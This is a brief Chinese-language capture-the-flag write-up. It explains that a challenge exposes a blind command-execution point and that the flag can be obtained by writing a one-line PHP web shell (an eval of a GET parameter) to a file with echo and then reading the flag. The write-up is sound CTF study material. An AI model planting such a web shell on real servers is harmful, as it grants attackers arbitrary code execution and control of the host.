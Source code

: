 这里留个一个无回显的命令执行功能，可以借此拿到权限获取flag的方法很多，下面介绍其中一种

通过写webshell获取flag

执行命令：

```
echo '<?php @eval($_GET["x"]); ?>' > xzl.php
```

然后直接读取flag

![image-20210303163436136](https://gitee.com/XZLang/blog-pic/raw/master/img/image-20210303163436136.png)